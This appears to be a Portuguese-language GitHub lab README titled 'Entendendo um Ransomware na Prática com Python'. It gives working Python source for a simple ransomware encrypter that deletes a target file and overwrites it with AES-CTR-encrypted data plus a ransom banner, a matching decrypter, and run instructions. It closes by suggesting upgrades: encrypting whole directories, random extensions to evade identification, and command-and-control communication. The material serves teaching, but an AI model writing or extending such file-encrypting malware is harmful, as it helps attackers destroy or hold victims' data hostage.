

# LAB-02:  Entendendo um Ransomware na Prática com Python

## Resumo

Simular um ataque de ransomware simples, criptografando um arquivo e adicionando uma mensagem de resgate.
Demonstrar os conceitos básicos de criptografia e como um ataque de ransomware funciona.

***Este código é fornecido apenas para fins educacionais e demonstrativos. O uso indevido pode resultar em consequências legais.***

## Simulação de Ransomware em Python

### Arquivos

<details>
<summary>Encrypter</summary>

**Função:** Criptografa o arquivo especificado.

**Processo:**
* Lê o arquivo alvo.
* Criptografa o conteúdo usando o algoritmo AES em modo CTR com uma chave pré-definida.
* Adiciona uma mensagem de resgate ao final do arquivo criptografado.
* Sobrescreve o arquivo original com a versão criptografada.

**File:** [encrypter.py](./source_code/encrypter.py)

**Código-Fonte:**

```python
import os
import pyaes

file_name = "TARGET"
file = open(file_name, "rb")
file_data = file.read()
file.close()

os.remove(file_name)

key = b"@@---->>ChavatteSecurity<<----@@"
aes = pyaes.AESModeOfOperationCTR(key)

crypto_data = aes.encrypt(file_data)

new_file = file_name

insert_warning = """#!#!#!
    +-----------------------------------------------------------------+
    |                                                                 |
    |                DADOS ENCRIPTADOS COM SUCESSO!!!!                |
    |                                                                 |
    |        Este ataque simulado demonstra a facilidade com que      |  
    |    dados podem ser comprometidos por ransomware.                |
    |        Mesmo em um cenário simplificado,                        |
    |    a ameaça é real e os riscos são elevados.                    |
    |                                                                 |
    |                       Ethical Disclaimer:                       |
    |     Este código é destinado apenas para fins educacionais.      |
    |                                                                 |
    +-----------------------------------------------------------------+
    """

text_bytes = insert_warning.encode('utf-8')

final_data = crypto_data + text_bytes

with open(f'{new_file}','wb') as new_file:
    new_file.write(final_data)
    new_file.close()
```
</details>

<details>
<summary>Decrypter</summary>

**Função:** Descriptografa o arquivo criptografado.

**Processo:**
* Lê o arquivo criptografado.
* Identifica a posição da mensagem de resgate.
* Remove a mensagem de resgate.
* Descriptografa o conteúdo criptografado usando a mesma chave utilizada na criptografia.
* Sobrescreve o arquivo original com a versão descriptografada.

**File:** [decrypter.py](./source_code/decrypter.py)

**Código-Fonte:**

```python
import os
import pyaes

file_name = "TARGET"
file = open(file_name, "rb")
file_data = file.read()
file.close()

key = b"@@---->>ChavatteSecurity<<----@@"
aes = pyaes.AESModeOfOperationCTR(key)

warning_index = file_data.find(b"#!#!#")

if warning_index != -1:
    file_data = file_data[:warning_index]

decrypt_data = aes.decrypt(file_data)

os.remove(file_name)

new_file = "TARGET"

with open(f'{new_file}','wb') as new_file:
    new_file.write(decrypt_data)
    new_file.close()
```
</details>

## Como Usar

### Requisitos:

* Python instalado
* Biblioteca pyaes instalada
```
pip install pyaes
```

### Configuração:

* Modifique a variável `file_name`, caso queira, em ambos os scripts para especificar o arquivo alvo.
* A chave de criptografia key é definida nos scripts. Para maior segurança, utilize chaves mais complexas e geradas aleatoriamente.

### Execução:

* Execute o script encrypter.py para criptografar o arquivo.
```
python encrypter.py  
```
* Execute o script decrypter.py para descriptografar o arquivo.
```
python decrypter.py 
```

### Exemplo de Uso:



## Segurança

Este é um exemplo simplificado. Ataques de ransomware reais utilizam algoritmos mais complexos, chaves mais longas e mecanismos de persistência.

Nunca compartilhe a chave de criptografia com terceiros.

Faça backups regulares dos seus dados para se proteger contra perdas.

## Limitações

A chave utilizada é estática e conhecida por ambos os scripts. Em um cenário real, a chave seria gerada aleatoriamente e transmitida de forma segura.

O algoritmo AES em modo CTR é vulnerável a ataques se a mesma chave de inicialização (IV) for reutilizada.

## Melhorias

Implementar a geração de chaves aleatórias.

Utilizar diferentes modos de operação do AES para maior segurança.

Adicionar funcionalidades como:
* Criptografia de diretórios inteiros.
* Extensões de arquivos aleatórias para dificultar a identificação.
* Comunicação com um servidor de comando e controle para receber instruções.
